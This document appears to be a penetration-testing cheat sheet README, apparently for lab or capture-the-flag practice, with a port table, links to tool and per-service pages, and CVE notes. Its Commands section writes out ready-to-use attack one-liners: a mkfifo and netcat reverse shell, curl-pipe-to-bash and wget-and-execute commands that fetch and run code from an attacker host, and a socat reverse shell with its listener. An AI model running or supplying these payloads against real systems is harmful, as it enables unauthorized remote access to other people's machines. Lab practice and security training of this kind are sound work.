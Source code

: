 # CheatSheet

## Ports
| Service | Port      |
|:-------:|:---------:|
| FTP     | 20 / 21   |
| SSH     | 22        |
| Telnet  | 23        |
| SMTP    | 25        |
| DNS     | 53        |
| HTTP    | 80        |
| POP3    | 110       |
| HTTPS   | 443       |
| SMB     | 139 / 445 |
| NFS     | 2049      |
| MySQL   | 3306      |

## Tools
- [Rustscan](tool/rustscan.md)
- [Nmap](tool/nmap.md)
- [MSFVenom](tool/msfvenom.md)
- [Gobuster](tool/gobuster.md)
- [Hydra](tool/hydra.md)
- [John the Ripper](tool/john.md)
- [Hashcat](tool/hashcat.md)
- [Netcat](tool/netcat.md)

## Workflow by service
- [SSH](service/ssh.md)
- [SMB](service/smb.md)
- [Telnet](service/telnet.md)
- [NFS](service/nfs.md)
- [FTP](service/ftp.md)
- [SMTP](service/smtp.md)
- [MySQL](service/mysql.md)

## Commands
### Shell payload
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.4.49.251 4444 >/tmp/f
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.4.49.251 4444 >/tmp/f" > shell.sh
```

### Download file
#### Shell script
```
curl 10.10.14.7/[FILE] | bash
FILE=[FILE NAME]; wget http://10.4.49.251/$FILE -O /tmp/$FILE; chmod +x /tmp/$FILE; bash /tmp/$FILE
```

#### Others
```
FILE=[FILE NAME]; wget http://10.4.49.251/$FILE -O /tmp/$FILE; chmod +x /tmp/$FILE; /tmp/$FILE
```

#### LinEnum
```
curl 10.10.14.7/LinEnum.sh | bash
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh; bash /tmp/LinEnum.sh
```

### Socat
#### Target
```
wget http://10.4.49.251/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.4.49.251:4445
```

#### Attacker (Kali)
```
socat file:`tty`,raw,echo=0 TCP-L:4445
```

#### To upgrade more
```
export SHELL=bash; export TERM=xterm-256color; stty rows 60 columns 126
```

## CVEs
- CVE : 2014-6287 ([39161](cve/cve-2014-6287-39161.md))
- CVE : 2014-6287 ([49125](cve/cve-2014-6287-49125.md))


## Reference
### Tools
- [CrackStation](https://crackstation.net/)
- [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/)
- [CyberChef](https://gchq.github.io/CyberChef/)

### Exploit Search
- [Exploit DB](https://www.exploit-db.com/)
- [GTFOBins](https://gtfobins.github.io/)

### Document
- [MSF Console Commands](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/)
- [Meterpreter Commands](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)

### Cheatsheet
- [PayloadsAllTheThings / Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [PayloadsAllTheThings / Linux - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#find-suid-binaries)
- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
